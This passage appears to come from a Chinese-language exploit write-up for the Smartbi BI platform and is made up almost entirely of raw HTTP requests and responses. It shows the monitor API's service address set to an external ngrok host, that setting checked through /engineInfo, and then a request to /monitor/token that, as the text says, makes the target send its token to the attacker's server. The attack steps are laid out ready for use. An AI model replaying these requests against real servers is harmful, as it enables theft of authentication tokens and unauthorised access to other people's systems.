 ```text
HTTP/1.1 200
Server: nginx
Date: Wed, 02 Aug 2023 02:48:27 GMT
Content-Type: application/json
Content-Length: 85
Connection: close
Set-Cookie: smartbi_smartbi_sessionid=I8a8a86440188d7d8d7d84ba80189be868e412d09; Path=/smartbi; HttpOnly
Set-Cookie: JSESSIONID=9DAB60CE0FFEDC6475B6F1837BA6C3D5; Path=/smartbi; HttpOnly

{"took":2,"success":true,"message":"Service address updated successfully","code":200}
```

请求`/engineInfo`，可以查看刚刚设置的`serviceAddress`。

```text
POST /smartbi/smartbix/api/monitor/engineInfo HTTP/1.1
Host:
User-Agent: Mozilla/5.0
Connection: close
Content-Length: 0
Content-Type: text/plain
Accept-Encoding: gzip, deflate


```

```text
HTTP/1.1 200
Server: nginx
Date: Wed, 02 Aug 2023 02:58:37 GMT
Content-Type: application/json
Content-Length: 224
Connection: close
Set-Cookie: smartbi_smartbi_sessionid=I8a8a86440188d7d8d7d84ba80189be88dda52d11; Path=/smartbi; HttpOnly
Set-Cookie: JSESSIONID=CD64F807282B28163038F08D5783DFE9; Path=/smartbi; HttpOnly

{"took":0,"success":true,"message":"Operation successful","code":200,"entity":{"serviceAddress":"<https://hz29-03-542-6-825.ngrok-free.app>","engineAddress":"className=UserService\\u0026methodName=isLogged\\u0026params=%5B%5D"}}
```

接着，触发目标站点向我们可控的服务器发送 token。

```text
POST /smartbi/smartbix/api/monitor/token HTTP/1.1
Host:
User-Agent: Mozilla/5.0
Connection: close
Content-Length: 7
Content-Type: text/plain
Accept-Encoding: gzip, deflate

service
```
